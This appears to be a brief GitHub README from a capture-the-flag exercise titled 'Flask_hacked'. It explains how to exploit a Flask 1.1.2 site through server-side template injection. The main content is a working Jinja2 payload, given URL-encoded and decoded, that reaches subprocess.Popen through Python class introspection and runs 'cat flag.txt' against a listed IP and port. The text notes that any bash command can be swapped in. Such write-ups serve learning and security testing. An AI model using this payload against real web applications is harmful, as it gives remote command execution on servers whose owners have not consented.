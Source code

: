 # Flask_hacked
# Hi i told you about how to hack flask site
Already command:   `http://167.172.55.94:31138/%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D`

The first part is write URL 
>`167.172.55.94:31138`

Second part is write exploit and start bash command

`%7B%7B%22%22.__class__.__mro__[1].__subclasses__()[414]%20(%22cat%20flag.txt%22,shell=True,stdout=-1).communicate()%7D%7D` URL encode

`{{"".__class__.__mro__[1].__subclasses__()[414] ("cat flag.txt",shell=True,stdout=-1).communicate()}}` ASCII 

`"cat flag.txt"` is a bash command. You can write your command.

But you need Flask 1.1.2

Solve this task!
